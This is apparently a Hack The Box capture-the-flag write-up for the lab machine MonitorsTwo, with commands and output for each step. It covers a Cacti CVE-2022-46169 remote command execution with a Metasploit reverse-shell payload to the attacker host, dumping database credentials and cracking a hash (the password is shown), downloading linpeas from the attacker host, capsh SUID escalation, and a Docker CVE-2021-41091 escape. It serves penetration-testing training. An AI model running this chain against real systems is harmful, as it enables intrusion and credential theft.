

# MonitorsTwo

| Hostname   | Difficulty |
| ---        | ---        |
| monitorstwo | Easy           |

Machine IP: 10.10.11.211 :

```bash
TARGET=10.10.11.211       # monitorstwo IP address
ATTACKER=10.10.14.17     # attacker IP
```

## Initial Reconnaissance

### Ports and services

```shell
nmap -sT -Pn $TARGET -p - --open -sV -sC -A 
```

Result:

```text
Nmap scan report for 10.10.11.211
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/11%OT=22%CT=1%CU=34795%PV=Y%DS=2%DC=T%G=Y%TM=645D538
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=2%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   16.79 ms 10.10.14.1
2   17.00 ms 10.10.11.211

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.08 seconds
```

### Service HTTP - port 80 - Cacti

open via a web browser :

```shell
firefox http://$TARGET &
```



This is a cacti version 1.2.22

### Information founds

| port | service | Software/version |
| ---  | ---     | ---              |
| 22   | SSH     |                  |
| 80   | HTTP    |                  |

## Initial access

Search for a possible vulnerability on this cacti version 1.2.22

```shell
searchsploit cacti
```

Result:

```text
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Cacti v1.2.22 - Remote Command Execution (RCE)               | php/webapps/51166.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Exploitation

Get the exploit code for EDB-51166 :

```shell
searchsploit -m 51166
```

In the header of the python code, there are some more information:

```python
 # Exploit Title: Cacti v1.2.22 - Remote Command Execution (RCE)
 # Exploit Author: Riadh BOUCHAHOUA
 # Discovery Date: 2022-12-08
 # Vendor Homepage: https://www.cacti.net/
 # Software Links : https://github.com/Cacti/cacti
 # Tested Version: 1.2.2x <= 1.2.22
 # CVE: CVE-2022-46169
```

This is CVE-2022-46169, and cacti version match well.

There is a dependency on httpx python libvrary, so we can setup a python virtual environment and install this dependency :

```shell
virtualenv -p python3 .venv
. .venv/bin/activate
pip install httpx
```

This exploit can be executed with this command :

```shell
python3 ./51166.py -u http://$TARGET -p 4444 -i $ATTACKER
```

But this do not seem to work, there is a timeout every time.

We could try with Metasploit, since this exploit is referenced :

```shell
msfconsole -q 
```

```text
msf6 > search cacti

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/cacti_unauthenticated_cmd_injection  2022-12-05       excellent  Yes    Cacti 1.2.22 unauthenticated command injection
   1  exploit/unix/http/cacti_filter_sqli_rce                 2020-06-17       excellent  Yes    Cacti color filter authenticated SQLi to RCE
   2  exploit/unix/webapp/cacti_graphimage_exec               2005-01-15       excellent  No     Cacti graph_view.php Remote Command Execution
   3  exploit/windows/http/hp_sitescope_runomagentcommand     2013-07-29       manual     Yes    HP SiteScope Remote Code Execution

Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/hp_sitescope_runomagentcommand
```

The exploit number 0 seems to match, so let's try it with a meterpreter payload :

```text
msf6 > use 0
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) >
```

Regarding the required parameters, we can script a simple resource file and ask Metasploit to execute it in a scripted way :

```bash
$ cat <<EOF > monitorstwo.rc
use exploit/linux/http/cacti_unauthenticated_cmd_injection
set payload linux/x86/meterpreter/reverse_tcp
set RHOSTS  10.10.11.211
set RPORT   80
set SRVHOST tun0
set LHOST   tun0
run
EOF
```

Then execute it :

```shell
msfconsole -q -r ./monitorstwo.rc
```

The shell do not pop every time, and the command have to be executed a few times befors having a shell. After some tries (~10) :

```text
[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Sending stage (1017704 bytes) to 10.10.11.211
[*] Command Stager progress - 100.00% done (1118/1118 bytes)
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.11.211:34642) at 2023-05-11 23:45:10 +0200

meterpreter > shell
Process 16082 created.
Channel 1 created.
whoami
www-data
hostname
50bca5e748b0
```

We have a shell on the target.

## Post-Exploitation

### Host Reconnaissance

We can have a quick look at running processes :

```shell
ps -ef
```

This return really few processes, mostly php and apache process. This seems to be a Docker container.

We can also have a look a filesystem organisation :

```shell
$ df -h
```

Result :

```text
Filesystem      Size  Used Avail Use% Mounted on
overlay         6.8G  4.3G  2.4G  65% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2       6.8G  4.3G  2.4G  65% /entrypoint.sh
shm              64M     0   64M   0% /dev/shm
tmpfs           2.0G     0  2.0G   0% /proc/acpi
tmpfs           2.0G     0  2.0G   0% /proc/scsi
tmpfs           2.0G     0  2.0G   0% /sys/firmware
```

The cgroup suggest we are running in a Docker container, and this `entrypoint.sh` is run at container provisionning.

```shell
ls -l /
```

Result:

```text
total 96
drwxr-xr-x   1 root root  4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root  4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root   340 May 11 04:25 dev
-rwxr-xr-x   1 root root   648 Jan  5 11:37 entrypoint.sh
drwxr-xr-x   1 root root  4096 Mar 21 10:49 etc
drwxr-xr-x   1 root root  4096 May 11 21:25 home
drwxr-xr-x   1 root root  4096 Nov 15 04:13 lib
drwxr-xr-x   2 root root  4096 Mar 22 13:21 lib64
drwxr-xr-x   2 root root  4096 Mar 22 13:21 media
drwxr-xr-x   2 root root  4096 Mar 22 13:21 mnt
drwxr-xr-x   2 root root  4096 Mar 22 13:21 opt
dr-xr-xr-x 286 root root     0 May 11 04:25 proc
drwx------   1 root root  4096 May 11 21:25 root
drwxr-xr-x   1 root root  4096 Nov 15 04:17 run
drwxr-xr-x   1 root root  4096 Jan  9 09:30 sbin
drwxr-xr-x   2 root root  4096 Mar 22 13:21 srv
dr-xr-xr-x  13 root root     0 May 11 04:25 sys
drwxrwxrwt   1 root root 20480 May 11 21:27 tmp
drwxr-xr-x   1 root root  4096 Nov 14 00:00 usr
drwxr-xr-x   1 root root  4096 Nov 15 04:13 var
```

```shell
cat /entrypoint.sh
```

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```

There is another container named "db", and we have the command to connect to this mysql instance :

```shell
mysql --host=db --user=root --password=root cacti
```

### Latteral movement

Using this command, we can quickly inspect the database :

```shell
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Result :
   
```
Tables_in_cacti
aggregate_graph_templates
aggregate_graph_templates_graph
aggregate_graph_templates_item
aggregate_graphs
aggregate_graphs_graph_item
aggregate_graphs_items
automation_devices
automation_graph_rule_items
automation_graph_rules
automation_ips
automation_match_rule_items
automation_networks
automation_processes
automation_snmp
automation_snmp_items
automation_templates
automation_tree_rule_items
automation_tree_rules
cdef
cdef_items
color_template_items
color_templates
colors
data_debug
data_input
data_input_data
data_input_fields
data_local
data_source_profiles
data_source_profiles_cf
data_source_profiles_rra
data_source_purge_action
data_source_purge_temp
data_source_stats_daily
data_source_stats_hourly
data_source_stats_hourly_cache
data_source_stats_hourly_last
data_source_stats_monthly
data_source_stats_weekly
data_source_stats_yearly
data_template
data_template_data
data_template_rrd
external_links
graph_local
graph_template_input
graph_template_input_defs
graph_templates
graph_templates_gprint
graph_templates_graph
graph_templates_item
graph_tree
graph_tree_items
host
host_graph
host_snmp_cache
host_snmp_query
host_template
host_template_graph
host_template_snmp_query
plugin_config
plugin_db_changes
plugin_hooks
plugin_realms
poller
poller_command
poller_data_template_field_mappings
poller_item
poller_output
poller_output_boost
poller_output_boost_local_data_ids
poller_output_boost_processes
poller_output_realtime
poller_reindex
poller_resource_cache
poller_time
processes
reports
reports_items
sessions
settings
settings_tree
settings_user
settings_user_group
sites
snmp_query
snmp_query_graph
snmp_query_graph_rrd
snmp_query_graph_rrd_sv
snmp_query_graph_sv
snmpagent_cache
snmpagent_cache_notifications
snmpagent_cache_textual_conventions
snmpagent_managers
snmpagent_managers_notifications
snmpagent_mibs
snmpagent_notifications_log
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
user_log
vdef
vdef_items
version
```

There is a lot of tables in cacti, but the "user_*" tables are interesting :

```shell
mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
```

```
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms
1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	11	1	on	-1	-1	-1		0	0	663348655
3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1	00	0
4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	11	1	on	-1	-1		on	0	0	2135691668
```

There are 3 users :

- amin
- guest
- marcus

and we have a password hash for marcus. We can crack this hash :

```shell
echo '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Result:

```text
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
funkymonkey      (?)     
1g 0:00:00:50 DONE (2023-05-11 23:59) 0.01987g/s 169.5p/s 169.5c/s 169.5C/s vectra..cooter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Password fopr user "marcus" is : "funkymonkey"

Since there is a SSH access, we can reuse this credential from cacti on this SSH access :

```shell
ssh marcus@$TARGET   
```

Result:

```text
Warning: Permanently added '10.10.11.211' (RSA) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 11 May 2023 10:02:01 PM UTC

  System load:                      0.07
  Usage of /:                       63.8% of 6.73GB
  Memory usage:                     22%
  Swap usage:                       0%
  Processes:                        247
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:2196


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:~$ 
```

We have an shell on the host.

### Privilege Escalation

In order to identify a way to escalade privilege, we use LinPEAS to have an overview of this host. For this, we will use `updog` as a HTTP file server on attacker host, and then download the script on target.

On attacker host :

```shell
cp /opt/resources/linux/linPEAS/linpeas.sh .                                 
updog
```

On target host :

```shell
wget http://10.10.14.17:9090/linpeas.sh
bash ./linpeas.sh
```

LinPEAS output a lot of things, but here are some noticable things :

```text
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits
Linux version 5.4.0-147-generic (buildd@lcy02-amd64-067) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.1)) #164-Ubuntu SMP Tue Mar 21 14:23:17 UTC 2023
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.6 LTS
Release:	20.04
Codename:	focal

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.31

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

╔══════════╣ Mails (limit 50)
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/mail/marcus
     4721      4 -rw-r--r--   1 root     mail         1809 Oct 18  2021 /var/spool/mail/marcus
```

Let's start by reading the pending mail :

```shell
cat /var/mail/marcus
```

result :

```text
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

This is the result of a security audit, and 3 vulnerabilities are known :

- CVE-2021-33033: a kernel exploit
- CVE-2020-25706: another vulnerability in cacti
- CVE-2021-41091: an exploit on Docker

For this last one, after a quick search on google, there is a proof-of-concept script available : [https://github.com/UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

From this exploit, we have to comme back to the shell in the container :

```bash
cat <<EOF > monitorstwo.rc
use exploit/linux/http/cacti_unauthenticated_cmd_injection
set payload linux/x86/meterpreter/reverse_tcp
set RHOSTS  10.10.11.211
set RPORT   80
set SRVHOST tun0
set LHOST   tun0
run
EOF
```

```shell
msfconsole -q -r ./monitorstwo.rc
```

The shell do not pop every time, and the command have to be executed a few times befors having a shell.

```text
meterpreter > shell
Process 353 created.
Channel 1 created.
```

From here, we need a way to escalade from current user to root user. Searching for SUID binaries :

```shell
find / -perm -4000 2>/dev/null
```

result:

```text
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

`/sbin/capsh` is unusual, and there is a reference in [GTFOBins : capsh](https://gtfobins.github.io/gtfobins/capsh/). We can exploit this to gain a previlege access :

```shell
$ /sbin/capsh --gid=0 --uid=0 --
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

We now have a root shell in the container.

From CVE-2021-41091 PoC, we could set the setuid bit on `/bin/bash` with the following command: `chmod u+s /bin/bash`. This will then be exploited from the host:

```shell
ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

chmod u+s /bin/bash

ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Back to the host shell via SSH:

```shell
df -h
```

result:

```text
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           394M  1.2M  392M   1% /run
/dev/sda2       6.8G  4.3G  2.4G  65% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
overlay         6.8G  4.3G  2.4G  65% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm              64M     0   64M   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay         6.8G  4.3G  2.4G  65% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm              64M     0   64M   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
tmpfs           394M     0  394M   0% /run/user/1000
```

We need to find the overlay of our container :

```shell
$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash
```

We have the bash with the SUID. we can exploit it with :

```shell
marcus@monitorstwo:~$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p -i
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# 
```

We have a privileged shell on this host.
